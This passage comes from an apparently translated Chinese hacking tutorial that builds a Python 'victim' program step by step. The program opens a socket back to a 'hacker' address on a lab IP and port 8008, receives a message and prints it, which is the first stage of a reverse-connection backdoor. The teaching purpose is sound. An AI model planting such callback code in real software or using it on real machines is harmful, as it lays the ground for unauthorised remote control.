 if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

由于我们要连接到黑客，我们需要提供黑客的 IP 地址和黑客监听的端口。

接下来，我们将为 `hacker_address` 创建一个元组。

下一步是使用受害者的 socket 与黑客 `connect()` 连接：

victim_socket.connect(hacker_address)

一旦调用此方法，如果服务器正在监听，我们将成功建立连接，否则我们将看到错误信息。如果现在运行程序，你会看到连接被拒绝的消息：

![图 6.4 – 连接失败](img/B14788_06_04.jpg)

图 6.4 – 连接失败

这是因为，如果某个端口上没有服务器在监听，所有传入的流量默认会被阻塞。记得在我们的黑客程序中，我们正在发送一条消息吗？我们需要在这里处理这条消息，否则会遇到错误。我们可以使用 `recv` 方法接收消息：

data = victim_socket.recv(1024)

`1024`是套接字一次可以读取的字节数。来自黑客的数据如果超过这个数量，会被截断。我们可以使用循环来接收更多数据。现在，这个数值已经足够。

最后，由于我们以字节形式接收数据，我们需要将其解码为字符串，以便打印出来，并在程序中稍后使用（如果需要的话）：

print(data.decode())

victim_socket.close()

我们可以使用`close()`方法关闭套接字。完整的程序如下：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

victim_socket.connect(hacker_address)

data = victim_socket.recv(1024)

print(data.decode())
